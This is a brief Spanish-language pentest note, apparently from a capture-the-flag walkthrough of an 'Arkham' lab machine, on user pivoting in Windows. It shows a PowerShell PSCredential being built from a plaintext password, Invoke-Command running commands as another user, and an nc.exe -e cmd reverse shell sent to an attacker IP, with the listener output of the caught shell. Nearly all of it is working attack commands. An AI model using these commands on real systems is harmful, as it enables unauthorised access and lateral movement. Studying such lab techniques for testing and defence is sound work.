 # Windows Script Block for exec Commands like other User with his password

Paso 1
```
$secPass = ConvertTo-SecureString 'Zx^#!QZX+T!123' -AsPlainText -Force
```
Paso 2
```
$cred = New-Object System.Management.Automation.PSCredential('ARKHAM\batman', $secPass)
```

Paso 3 ejecutando comandos como el usuario Batman desde el user alfred
```
whoami
arkham\alfred

Invoke-Command -ComputerName ARKHAM -Credential $cred -ScriptBlock { whoami }
arkham\batman
PS C:\> 
```
Si tenemos un nc.exe subido a la maquina podemos enviarnos una rev shell para hacer user pivoting usando ScriptBlock para ejecutar
comandos como el usuario batman
```
Invoke-Command -ComputerName ARKHAM -Credential $cred -ScriptBlock { C:\Windows\System32\spool\drivers\color\nc.exe -e cmd 10.10.16.7 443 }
```
Ganando acceso
```
# rlwrap nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.130] 49698
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

whoami
whoami
arkham\batman
```
